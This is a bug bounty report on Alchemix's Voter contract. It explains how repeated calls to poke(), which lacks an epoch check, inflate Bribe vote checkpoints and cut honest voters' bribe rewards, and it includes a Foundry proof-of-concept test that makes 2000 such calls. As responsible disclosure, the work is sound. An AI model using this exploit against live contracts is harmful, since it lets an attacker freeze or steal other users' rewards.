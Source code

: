 
# Malicious actor can acquire bribe rewards by blocking other users

Submitted on Mon May 13 2024 14:01:40 GMT-0400 (Atlantic Standard Time) by @DuckAstronomer for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31163

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Permanent freezing of unclaimed yield
- Theft of unclaimed yield

## Description
## Vulnerability Details
The `Voter` contract uses the `onlyNewEpoch` modifier for the `reset()` and `vote()` external functions, which prevents users from voting multiple times or revoting in the same epoch.

However, the `poke()` function is missing the `onlyNewEpoch` modifier, allowing the user to call it multiple times during an epoch. When `poke()` is invoked, it internally calls `_vote()` which resets previous votes first (https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L413) and then proceeds to apply the same amount of votes.

The `_reset()` function perform the withdrawal of votes from a `Bribe` contract (https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L396), while the `_vote()` function deposit votes back (https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L441).

The `Bribe` contract utilizes the `deposit()` function to checkpoint the voting amount for the current Epoch by invoking `_writeVotingCheckpoint()` (https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L313). However, in the `withdraw()` function, it does not checkpoint the voting amount for the current Epoch. This is acceptable since users are required to vote or reset once in an Epoch. However, this assumption is invalid because of the `poke()` function. Users can call it any number of times in an epoch.

A malicious user can call `poke()` multiple times, inflating the value of votes made for an Epoch. Consequently, when calculating the amount of bribes a benign user should receive, the amount will be significantly lower.

```
_prevSupply = votingCheckpoints[getPriorVotingIndex(_nextEpochStart + DURATION)].votes;

// Prevent divide by zero
if (_prevSupply == 0) {
    _prevSupply = 1;
}
prevRewards.balanceOf = (cp0.balanceOf * tokenRewardsPerEpoch[token][_nextEpochStart]) / _prevSupply;
```

Since the value of `_prevSupply` will be quite big due to multiple calls to `poke()`, the reward (`prevRewards.balanceOf`) will be small. Consequently, reward tokens become trapped in the Bribe contract, causing users to miss out on their rewards.

This way an attacker can discourage users with significant voting power from participating in voting for a specific gauge and then later acquire trapped bribes in the following epochs.


## Impact Details
- Theft of unclaimed yield.
- Permanent freezing of unclaimed yield.

        
## Proof of concept
## Proof of Concept

POC scenario:
1. The bad guy has **99** times less voting power than the good guy.
2. The good guy normally should get **99K** of BAL bribes.
3. However, the Bad guys call `poke()` 2000 times.
4. As a result of the attack, the good guy receives 15 times less reward.

Instructions:
1. Put Poc's code from below into the file `src/test/Voting.t.sol` - https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/test/Voting.t.sol.
1. Run the Poc as follows: `forge test --mp src/test/Voting.t.sol --fork-url URL --fork-block-number BLOCK`

```
function test_poc_ok() public {
    address bad = address(1);
    address good = address(2);

    // The good guy has 99x more voting power
    // The good guy should receive 99x more bribes ...
    uint256 tokenId1 = createVeAlcx(bad, 1 ether, MAXTIME, false);
    uint256 tokenId2 = createVeAlcx(good, 99 ether, MAXTIME, false);

    uint256 initialTimestamp = block.timestamp;

    address bribeAddress = voter.bribes(address(sushiGauge));

    // Add BAL and AURA bribes to sushiGauge
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
    createThirdPartyBribe(bribeAddress, aura, TOKEN_100K);

    address[] memory pools = new address[](1);
    pools[0] = sushiPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    address[] memory bribes = new address[](1);
    bribes[0] = address(bribeAddress);
    address[][] memory tokens = new address[][](2);
    tokens[0] = new address[](2);
    tokens[0][0] = bal;
    tokens[0][1] = aura;

    // Good and bad guys votes for sushiPoolAddress
    hevm.prank(good);
    voter.vote(tokenId2, pools, weights, 0);

    hevm.prank(bad);
    voter.vote(tokenId1, pools, weights, 0);

    // Reach the end of the epoch
    hevm.warp(block.timestamp + nextEpoch);

    // Claim bribes for good and bad guys
    hevm.prank(good);
    voter.claimBribes(bribes, tokens, tokenId2);

    hevm.prank(bad);
    voter.claimBribes(bribes, tokens, tokenId1);

    // Fair amount of Bribes for the good guy
    uint256 fairAmount = IERC20(bal).balanceOf(good);

    require(
        fairAmount > TOKEN_100K * 9 / 10
    );
}

function test_poc_not_ok() public {
    address bad = address(1);
    address good = address(2);

    // The good guy has 99x more voting power
    // The good guy should receive 99x more bribes ...
    uint256 tokenId1 = createVeAlcx(bad, 1 ether, MAXTIME, false);
    uint256 tokenId2 = createVeAlcx(good, 99 ether, MAXTIME, false);

    uint256 initialTimestamp = block.timestamp;

    address bribeAddress = voter.bribes(address(sushiGauge));

    // Add BAL and AURA bribes to sushiGauge
    createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);
    createThirdPartyBribe(bribeAddress, aura, TOKEN_100K);

    address[] memory pools = new address[](1);
    pools[0] = sushiPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    address[] memory bribes = new address[](1);
    bribes[0] = address(bribeAddress);
    address[][] memory tokens = new address[][](2);
    tokens[0] = new address[](2);
    tokens[0][0] = bal;
    tokens[0][1] = aura;

    // Good and bad guys votes for sushiPoolAddress
    hevm.prank(good);
    voter.vote(tokenId2, pools, weights, 0);

    hevm.prank(bad);
    voter.vote(tokenId1, pools, weights, 0);

    // Bad guy invokes poke() 2000 times in the same epoch
    // this way manipulating votingCheckpoints[lastIndex].votes of Bribes
    // https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol#L255-L261
    hevm.startPrank(bad);
    for (uint i; i < 2000; i++) {
        voter.poke(tokenId1);
    }
    hevm.stopPrank();

    // Reach the end of the epoch
    hevm.warp(block.timestamp + nextEpoch);

    // Claim bribes for good and bad guys
    hevm.prank(good);
    voter.claimBribes(bribes, tokens, tokenId2);

    hevm.prank(bad);
    voter.claimBribes(bribes, tokens, tokenId1);

    uint256 unfairAmount = IERC20(bal).balanceOf(good);

    // The good guy gets 15x less bribes (((
    require(
        unfairAmount * 15 < TOKEN_100K * 9 / 10
    );
}
```